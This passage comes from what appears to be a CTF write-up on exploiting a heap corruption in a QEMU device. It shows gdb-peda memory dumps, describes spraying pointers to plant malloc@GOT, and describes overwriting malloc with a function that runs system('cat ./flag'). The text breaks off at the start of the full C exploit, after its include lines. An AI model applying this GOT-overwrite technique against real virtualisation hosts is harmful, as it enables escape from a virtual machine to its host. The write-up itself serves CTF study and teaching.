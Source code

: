 {% highlight text %}
gdb-peda$ x/4gx 0x000000000131796d
0x131796d:  0xffc817c3d0000000  0x000000000000007f  # <
0x131797d:  0x0000000000000000  0x0000000000000000
{% endhighlight %}

Once we manage to serve our controlled pointer via malloc the pointer array will mostly look like this

{% highlight text %}
gdb-peda$ x/40gx 0x1317940
0x1317940:  0x00007fffc82d4710  0x000000000131797d
0x1317950:  0x00007fffc82e01f0  0x00007fffc81e1940
0x1317960:  0x00007fffc8298650  0x0000000000000000
0x1317970:  0x00007fffc8378a50  0x0000000000000000
0x1317980:  0x0000000000000000  0x0000000000000000
0x1317990:  0x0000000000000000  0x0000000000000000
0x13179a0:  0x0000000000000000  0x0000000000000000
{% endhighlight %}

Because qemu did not let us completely control the order of malloc calls in the whole program for this arena, our pointer will be at different indexes every time. We can overcome this issue by writing to all the pointers so we would eventually write to ours. What we will write is the address of malloc@GOT at index 8.

{% highlight text %}
gdb-peda$ x/40gx 0x1317940
0x1317940:  0x00007fffc82d4710  0x000000000131797d
0x1317950:  0x00007fffc82e01f0  0x00007fffc81e1940
0x1317960:  0x00007fffc8298650  0x00007fffc802eb90
0x1317970:  0x00007fffc8378a50  0x0000000000000000
0x1317980:  0x0000000001130b78  0x0000000000000000
0x1317990:  0x0000000000000000  0x0000000000000000
0x13179a0:  0x0000000000000000  0x0000000000000000
0x13179b0:  0x0000000000000000  0x0000000000000000
gdb-peda$ x/gx 0x0000000001130b78
0x1130b78:  0x00007fffe0ac0130
gdb-peda$ x/1i 0x00007fffe0ac0130
   0x7fffe0ac0130 <__GI___libc_malloc>: push   rbp
gdb-peda$
{% endhighlight %}

At last we overwrite malloc's address with `0x6E65F9` which if u look in IDA it's a function that does `system("cat ./flag")`.

## Full exploit

{% highlight C %}

/*
  Most of this code is taken from pcimem tool

  https://github.com/billfarrow/pcimem
*/

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <sys/types.h>
#include <sys/mman.h>